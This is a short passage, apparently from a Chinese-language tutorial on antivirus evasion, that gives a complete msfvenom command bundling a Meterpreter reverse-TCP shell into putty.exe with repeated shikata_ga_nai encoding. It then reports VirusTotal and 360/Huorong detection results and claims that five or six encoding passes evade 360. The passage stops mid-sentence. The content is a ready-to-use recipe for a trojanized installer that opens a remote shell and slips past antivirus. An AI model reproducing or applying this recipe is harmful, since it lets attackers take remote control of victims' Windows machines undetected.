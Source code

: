 

### msf自捆绑+编码(VT查杀率16/69)

将上面的编码和捆绑两种方法结合一下进行尝试：

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.174.128 LPORT=6666 -e x86/shikata_ga_nai -x putty.exe  -i 15 -f exe -o /mnt/hgfs/Share/payload4.exe
```

![image-20220526193359812](./images/202205261933974.png)

与上一种方法对比，大小完全一样。

![image-20220526193552798](./images/202205261935858.png)

可修改-i编码次数，编码次数越多，生成的payload越可能免杀，经测试，编码5次和6次可免杀360。

360能查杀，火绒不能查杀。但是识别时间比前两种方法久一些（原po火绒动态静态均能查杀，而360不会报毒）。

在virustotal.com上查杀率为16/69（原po为35/69）。

360：
